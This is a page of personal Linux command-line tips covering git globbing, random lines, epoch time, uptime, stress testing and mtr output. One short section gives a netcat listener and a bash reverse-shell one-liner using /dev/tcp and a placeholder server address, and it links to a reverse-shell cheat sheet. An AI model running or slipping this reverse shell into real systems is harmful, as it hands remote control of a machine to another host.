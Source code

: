# Linux CLI tricks

# Send a string to an IP/port
```bash
telnet 127.0.0.1 80

(echo hello; sleep 1) | telnet 127.0.0.1 80

echo hello > /dev/tcp/127.0.0.1/80

echo hello | nc localhost 80
```

# Reverse shell
```bash
# server
nc -knvlp 3389

# client
bash -i >& /dev/tcp/server_ip/3389 0>&1
```

## See also
- https://tldp.org/LDP/abs/html/x17974.html
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://catonmat.net/bash-one-liners-explained-part-three
- http://docs.eggplantsoftware.com/epp/9.0.0/ePP/advovercoming_tcpip_connection_li.htm

# Target everything but one file
```
git add !(unit.md)
```

# Print a random line from a file
```bash
sed "$(( $RANDOM % $(cat readme.txt | wc -l) ))q;d" readme.txt

shuf readme.txt | head -1
```

# Epoch seconds
From bash 5.

```bash
$ echo $EPOCHREALTIME
1614870873.574544

$ echo $EPOCHSECONDS
1614870876
```

# uptime
The three load average values are 1, 5 and 15 minutes.

```bash
$ uptime
15:29:28 up 20:23, 0 users, load average: 5.08, 1.49, 0.51
```

# stress
Stress your system in different ways.

```bash
$ stress --cpu 8
```

# Number of processors
```
$ make -j $(nproc)
```

# Synonyms for localhost

```bash
localhost
127.0.0.1
127.0.0.2
127.0.0.3
127.1
0.0.0.0
0 # wut
```

# Move a file out of the way
```bash
mv {,_}.bash_history
```

# Verbose time
```
$ /usr/bin/time -v ls /
bin dev home lib lib64 lost+found mnt proc run snap sys usr
boot etc init lib32 libx32 media opt root sbin srv tmp var
Command being timed: "ls /"
User time (seconds): 0.00
System time (seconds): 0.00
Percent of CPU this job got: 100%
Elapsed (wall clock) time (h:mm:ss or m:ss): 0:00.00
Average shared text size (kbytes): 0
Average unshared data size (kbytes): 0
Average stack size (kbytes): 0
Average total size (kbytes): 0
Maximum resident set size (kbytes): 2412
Average resident set size (kbytes): 0
Major (requiring I/O) page faults: 0
Minor (reclaiming a frame) page faults: 126
Voluntary context switches: 1
Involuntary context switches: 0
Swaps: 0
File system inputs: 0
File system outputs: 0
Socket messages sent: 0
Socket messages received: 0
Signals delivered: 0
Page size (bytes): 4096
Exit status: 0
```

# Vendor IDs
View the latest on [ieee.org](http://standards-oui.ieee.org/oui.txt).

To install on Ubuntu:
```bash
sudo apt install --yes arp-scan
get-oui
```

# pushd equivalent
I use this all the time. Rather than `pushd` and `popd` to navigate around the file system:
```bash
# Navigate to new dir
cd ~/deanturpin.gitlab.io/content/post

# Return whence you came
cd -
```

# Last argument
I've used `esc shift -` to get the last argument from the previous command for a long time. But it's a little unweildy and you can do the same with `alt .`.

# MTR: "my traceroute"
Like tracepath/route but cooler.

```bash
My traceroute [v0.93]
BootCamp-0263E (172.25.71.53) 2021-04-10T13:22:42+0100
Keys: Help Display mode Restart statistics Order of fields quit
Packets Pings
Host Loss% Snt Last Avg Best Wrst StDev
1. BootCamp-0263E.7thsensedesign.local 0.0% 37 0.6 0.7 0.2 3.5 0.5
2. 192.168.0.1 97.2% 37 5.6 5.6 5.6 5.6 0.0
3. (waiting for reply)
4. brig-core-2b-xe-810-0.network.virginmedia.net 0.0% 37 11.6 15.1 11.1 32.4 4.6
5. (waiting for reply)
6. eislou2-ic-3-ae0-0.network.virginmedia.net 0.0% 37 22.1 26.5 20.0 51.8 7.5
7. 72.14.221.42 0.0% 37 22.7 25.1 20.4 46.0 5.4
8. 108.170.246.161 0.0% 37 19.2 23.4 18.7 39.5 5.0
9. 108.170.246.175 63.9% 37 23.3 28.1 22.9 45.5 6.6
10. 216.239.58.179 63.9% 37 22.2 29.2 22.2 62.7 10.7
11. 142.250.210.20 0.0% 37 101.4 104.0 98.5 111.8 3.4
12. 142.250.210.24 66.7% 37 115.7 114.8 110.2 123.0 3.3
13. 209.85.247.212 66.7% 37 115.7 114.9 108.7 131.7 6.5
14. 209.85.241.205 66.7% 37 111.9 116.2 111.2 129.3 5.0
15. (waiting for reply)
16. (waiting for reply)
17. (waiting for reply)
18. (waiting for reply)
19. (waiting for reply)
20. (waiting for reply)
21. (waiting for reply)
22. (waiting for reply)
23. (waiting for reply)
24. 35.185.44.232 0.0% 36 110.9 113.7 108.8 132.4 5.5
```

# See also
- https://github.blog/2015-06-08-how-to-undo-almost-anything-with-git/
